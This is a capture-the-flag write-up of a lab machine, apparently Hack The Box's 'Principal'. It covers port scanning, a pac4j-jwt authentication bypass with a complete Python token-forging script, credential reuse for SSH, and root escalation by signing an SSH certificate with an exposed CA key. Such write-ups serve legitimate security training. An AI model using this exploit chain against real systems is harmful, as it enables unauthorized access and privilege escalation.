









## Nmap Sc4n
Start with an Nmap scan:
```bash
└─$ sudo nmap -p- -Pn -T4 -vv 10.129.27.30          
```
Only two ports are exposed:
```bash
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```
Retrieve more detailed information about the services:
```bash
└─$ sudo nmap -p22,8080 -sC -sV -Pn 10.129.27.30 
```
A more detailed scan reveals:
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_  256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open  http-proxy Jetty
|_http-server-header: Jetty
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Thu, 09 Apr 2026 18:35:31 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: application/json
|     {"timestamp":"2026-04-09T18:35:31.475+00:00","status":404,"error":"Not Found","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|     ...
```
Findings:

- Jetty web server on port 8080
- Authentication handled by pac4j-jwt 6.0.3

The web application redirects to a login page.
## Web
Visit the website on port 8080:


**pac4j-jwt** is a security framework written in Java. It is used for user authentication and authorization management. 

This framework supports multiple technologies such as OAuth, JWT, LDAP and more.

The version used in the current app is `pac4j-jwt/6.0.3` as was shown above by nmap.

A quick google search reveals some references to a recently disclosed vulnerability.

#####  CVE-2026-29000 (CVSS 10.0)

[nvd.nist.gov ->](https://nvd.nist.gov/vuln/detail/CVE-2026-29000)

[snyk.io ->](https://snyk.io/articles/public-key-breaks-authentication-pac4j-jwt/)

[codeant.ai -> ](https://www.codeant.ai/security-research/pac4j-jwt-authentication-bypass-public-key)

A vulnerability in pac4j-jwt 6.0.3 allows authentication bypass due to improper JWT validation and weak handling of token integrity checks.

The bypass works when the token does not contain a signature at all.

First, we obtain the key from the `/jwks` endpoint,  which is visible in Proxy:

The JWKS endpoint reveals the RSA public key used for encryption:
```bash
{
    "keys":[
        {   
            "kty":"RSA",
            "e":"AQAB",
            "kid":"enc-key-1","n":"lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
        }
    ]
}
```
This key is used for encrypting JWTs, meaning we can craft valid encrypted tokens if we bypass signature validation.

There is also a useful `app.js` file that contains following needed parts:

-> Description of authentication flow, Token handling, and JWT claims:
```javascript
/**
 * Principal Internal Platform - Client Application
 * Version: 1.2.0
 *
 * Authentication flow:
 * 1. User submits credentials to /api/auth/login
 * 2. Server returns encrypted JWT (JWE) token
 * 3. Token is stored and sent as Bearer token for subsequent requests
 *
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 *
 * JWT claims schema:
 *   sub   - username
 *   role  - one of: ROLE_ADMIN, ROLE_MANAGER, ROLE_USER
 *   iss   - "principal-platform"
 *   iat   - issued at (epoch)
 *   exp   - expiration (epoch)
 */
```

-> Some API endpoints:

```javascript
const API_BASE = '';
const JWKS_ENDPOINT = '/api/auth/jwks';
const AUTH_ENDPOINT = '/api/auth/login';
const DASHBOARD_ENDPOINT = '/api/dashboard';
const USERS_ENDPOINT = '/api/users';
const SETTINGS_ENDPOINT = '/api/settings';
```

-> Roles that existed in the app (also they was mentioned in the JWT claims schema)
```javascript
// Role constants - must match server-side role definitions
const ROLES = {
    ADMIN: 'ROLE_ADMIN',
    MANAGER: 'ROLE_MANAGER',
    USER: 'ROLE_USER'
};
```
-> Token management:
```javascript
// Token management
class TokenManager {
    static getToken() {
        return sessionStorage.getItem('auth_token');
    }

    static setToken(token) {
        sessionStorage.setItem('auth_token', token);
    }

    static clearToken() {
        sessionStorage.removeItem('auth_token');
    }

    static isAuthenticated() {
        return !!this.getToken();
    }

    static getAuthHeaders() {
        const token = this.getToken();
        return token ? { 'Authorization': `Bearer ${token}` } : {};
    }
}
```

### Exploit

We exploit this by:

- Creating a forged JWT with elevated privileges
- Disabling signature verification (alg=none)
- Wrapping it inside a valid JWE container

Full script I
```python
import time
import json
import jwt
from jwcrypto import jwk, jwe

jwks = {
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "enc-key-1",
            "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
        }
    ]
}

key_data = jwks["keys"][0]
public_key = jwk.JWK.from_json(json.dumps(key_data))

payload = {
    "sub": "krnl_pnc",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600
}

token = jwt.encode(payload, key=None, algorithm=None)

encrypted = jwe.JWE(
    plaintext=token.encode(),
    protected={
        "alg": "RSA-OAEP-256",
        "enc": "A128GCM",
        "cty": "JWT",
        "kid": key_data.get("kid", "enc-key-1")
    }
)

encrypted.add_recipient(public_key)

print(encrypted.serialize(compact=True))
```
Using this script generate the token:


### Adm1n Acce$s

Tokens are stored in the session storage in the browser how was shown in app.js.

After injecting the forged token into session storage, we gain admin access.


We can now query internal endpoints:
1) **GET /api/users**
```json
"users":[
    {
        "note": "",
        "username": "admin",
        "email": "s.chen@principal-corp.local",
        "displayName": "Sarah Chen",
        "department": "IT Security",
        "id": 1,
        "lastLogin": "2025-12-28T09:15:00Z",
        "active": true,
        "role": "ROLE_ADMIN"
    },
    {
        "note": "Service account for automated deployments via SSH certificate auth.",
        "username": "svc-deploy",
        "email": "svc-deploy@principal-corp.local",
        "displayName": "Deploy Service",
        "department": "DevOps",
        "id": 2,
        "lastLogin": "2025-12-28T14:32:00Z",
        "active": true,
        "role": "deployer"
    },
    {
        "note": "Team lead - backend services",
        "username": "jthompson",
        "email": "j.thompson@principal-corp.local",
        "displayName": "James Thompson",
        "department": "Engineering",
        "id": 3,
        "lastLogin": "2025-12-27T16:45:00Z",
        "active": true,
        "role": "ROLE_USER"
    },
    {
        "note": "Frontend developer",
        "username": "amorales",
        "email": "a.morales@principal-corp.local",
        "displayName": "Ana Morales",
        "department": "Engineering",
        "id": 4,
        "lastLogin": "2025-12-28T08:20:00Z",
        "active": true,
        "role": "ROLE_USER"
    },
    {
        "note": "Operations manager",
        "username": "bwright",
        "email": "b.wright@principal-corp.local",
        "displayName": "Benjamin Wright",
        "department": "Operations",
        "id": 5,
        "lastLogin": "2025-12-26T11:30:00Z",
        "active": true,
        "role": "ROLE_MANAGER"
    },
    {
        "note": "Security analyst - on leave until Jan 6",
        "username": "kkumar",
        "email": "k.kumar@principal-corp.local",
        "displayName": "Kavitha Kumar",
        "department": "IT Security",
        "id": 6,
        "lastLogin": "2025-12-20T10:00:00Z",
        "active": false,
        "role": "ROLE_ADMIN"
    },
    {
        "note": "QA engineer",
        "username": "mwilson",
        "email": "m.wilson@principal-corp.local",
        "displayName": "Marcus Wilson",
        "department": "QA",
        "id": 7,
        "lastLogin": "2025-12-28T13:10:00Z",
        "active": true,
        "role": "ROLE_USER"
    },
    {
        "note": "Engineering director",
        "username": "lzhang",
        "email": "l.zhang@principal-corp.local",
        "displayName": "Lisa Zhang",
        "department": "Engineering",
        "id": 8,
        "lastLogin": "2025-12-28T07:55:00Z",
        "active": true,
        "role": "ROLE_MANAGER"
    }
]
```

2) **GET /api/settings**
```json
{
  "infrastructure": {
    "sshCaPath": "/opt/principal/ssh/",
    "sshCertAuth": "enabled",
    "database": "H2 (embedded)",
    "notes": "SSH certificate auth configured for automation - see /opt/principal/ssh/ for CA config."
  },
  "integrations": [
    {
      "name": "GitLab CI/CD",
      "lastSync": "2025-12-28T12:00:00Z",
      "status": "connected"
    },
    {
      "name": "Vault",
      "lastSync": "2025-12-28T14:00:00Z",
      "status": "connected"
    },
    {
      "name": "Prometheus",
      "lastSync": "2025-12-28T14:30:00Z",
      "status": "connected"
    }
  ],
  "security": {
    "authFramework": "pac4j-jwt",
    "authFrameworkVersion": "6.0.3",
    "jwtAlgorithm": "RS256",
    "jweAlgorithm": "RSA-OAEP-256",
    "jweEncryption": "A128GCM",
    "encryptionKey": "D3pl0y_$$H_Now42!",
    "tokenExpiry": "3600s",
    "sessionManagement": "stateless"
  },
  "system": {
    "version": "1.2.0",
    "environment": "production",
    "serverType": "Jetty 12.x (Embedded)",
    "javaVersion": "21.0.10",
    "applicationName": "Principal Internal Platform"
  }
}
```

From **/api/settings**, we discover sensitive configuration:
```json
"sshCertAuth": "enabled",
"sshCaPath": "/opt/principal/ssh/",
"encryptionKey": "D3pl0y_$$H_Now42!"
```
This reveals:

-> SSH certificate authentication is enabled

-> A trusted CA exists on the system

-> A potential credential reused for an account (`"encryptionKey":"D3pl0y_$$H_Now42!"`)

## Sh3ll as svc-deploy

**svc-deploy** uses this password for ssh login.

So, we successfully authenticate via SSH:

```bash
└─$ ssh svc-deploy@principal.htb   
```

[+] -> user.txt




## PrivEsc

Check for SUID binaries:
```bash
svc-deploy@principal:~$ find / -type f -perm -4000 2>/dev/null
```
```bash
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/mount
/usr/bin/fusermount3
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
```
No obvious privilege escalation vectors are present in SUID binaries.


The user belongs to an additional non-standard group:


\[+\] group -> deployers

This is a strong indicator of application-specific privileges.

The settings in the web app contain `"sshCaPath": "/opt/principal/ssh/"`, which is worth exploring.
Before doing that, I want to see files and directories that are owned by the deployers group:

`find / -gid 1001 2>/dev/null`
output:
```bash
/etc/ssh/sshd_config.d/60-principal.conf
/opt/principal/ssh
/opt/principal/ssh/README.txt
/opt/principal/ssh/ca
```


Inspect the SSH daemon configuration:
```bash
svc-deploy@principal:~$ cat /etc/ssh/sshd_config.d/60-principal.conf
```
Output:
```bash
# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```
The server trusts any SSH certificate signed by the configured CA. If a user presents a valid SSH certificate signed by the CA → authentication is automatic.
No password or key authorization is required beyond trust.

SSH CA trust is defined in sshd_config, and OpenSSH explicitly states how principals and CA trust work:
```bash
When using certificates signed by a key listed in TrustedUserCAKeys, this file lists names, one of which must appear in the certificate for it to be accepted  for authentication.  Names are listed one per line preceded by key options
```
```bash
 TrustedUserCAKeys
    Specifies  a  file  containing public keys of certificate authorities that are trusted to sign user certificates for authentica‐
    tion, or none to not use one.  Keys are listed one per line; empty lines and comments starting with ‘#’ are allowed.  If a  cer‐
    tificate  is presented for authentication and has its signing CA key listed in this file, then it may be used for authentication
    for any user listed in the certificate's principals list.  Note that certificates that lack a list of  principals  will  not  be
    permitted  for  authentication  using  TrustedUserCAKeys
```
from ssh-keygen:
```bash
ssh-keygen supports signing of keys to produce certificates that may be used for user or host authentication.  Certificates consist of a public key, some identity information, zero or more principal (user or host) names and a set of options that are signed by a  Certification Authority (CA) key.  Clients or servers may then trust only the CA key and verify its signature on a certificate rather than trusting  many  user/host  keys.
```

We'll generate an SSH key and sign it using the trusted CA.
In this case we need to copy the ca.

Generate a keypair:
```bash
└─$ ssh-keygen -f ev1l_key -N ""
```

Then sign it using the copied CA:
```bash
└─$ ssh-keygen -s ca -I root -n root ev1l_key.pub
```

This produces a valid SSH certificate with:

-> Principal: root

-> Signed by trusted CA

Login as root:
```bash
ssh -i ev1l_key root@principal.htb
```


